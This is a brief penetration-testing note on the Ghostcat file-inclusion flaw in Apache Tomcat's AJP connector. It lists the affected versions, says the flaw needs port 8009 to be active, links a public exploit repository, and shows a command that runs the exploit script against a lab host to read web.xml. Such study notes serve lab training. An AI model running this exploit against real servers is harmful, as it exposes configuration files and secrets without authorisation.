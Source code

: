 LFI 

versions before 9.0.31, 8.5.51, and 7.0.100

only if Apache Jserv Protocol normally on 8009 port is active 

https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi


```shell-session
ython2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 
```
this will read the web.xml file 